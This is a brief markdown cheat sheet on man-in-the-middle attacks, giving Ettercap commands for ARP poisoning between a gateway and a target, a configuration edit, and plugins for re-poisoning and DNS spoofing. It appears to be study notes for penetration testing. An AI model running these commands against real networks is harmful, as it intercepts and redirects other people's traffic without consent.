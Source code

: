 # Overview
- Capture data
- Bypass HTTPS
- DNS Spoofing
- ARP spoofing
- Bypass router-side security features
- Analyse data flows
- Build your own MITM attacks

# Ettercap
`leafpad /etc/ettercap/etter.conf` => Modify the file to use IP tables and set UIDs to 0

For ARP Spoofing*
`ettercap -Tq -M arp:remote -i <interface-name> /<default-gateway>// /<target-ip-address>//`

## Plugins in Ettercap
- autoadd: auto-add new clients**
- repoison_arp: re-pioson clients after arp broadcasts**
- dns_spoof: dns spoof targets**

`ettercap -Tq -M arp:remote -i <interface-name> -5 ///`